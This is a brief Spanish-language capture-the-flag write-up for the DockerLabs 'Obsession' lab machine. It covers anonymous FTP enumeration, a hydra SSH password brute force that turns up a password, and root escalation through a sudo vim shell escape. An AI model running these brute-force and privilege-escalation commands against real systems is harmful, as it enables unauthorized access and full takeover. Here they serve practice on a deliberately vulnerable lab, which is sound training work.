

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/dockerlabs/obsession/index.html · generator: mkdocs

# Obsession

Hay un ftp con acceso anónimo habilitado. Se entra al ftp con *Anonymous* y sin pswd
*ftp-anon: Anonymous FTP login allowed (FTP code 230)*
*-rw-r--r--    1 0        0             667 Jun 18  2024 chat-gonza.txt*
*-rw-r--r--    1 0        0             315 Jun 18  2024 pendientes.txt*

`ftp> get chat-gonza.txt`
`ftp> get pendientes.txt`

Se ve que el usuario es un tal *Russoski*
`hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`
**iloveme**

## Escalada

`sudo -l
*(root) NOPASSWD: /usr/bin/vim*

`sudo vim -c ':!/bin/sh'`
ó
`sudo vim -c ':!/bin/bash'`
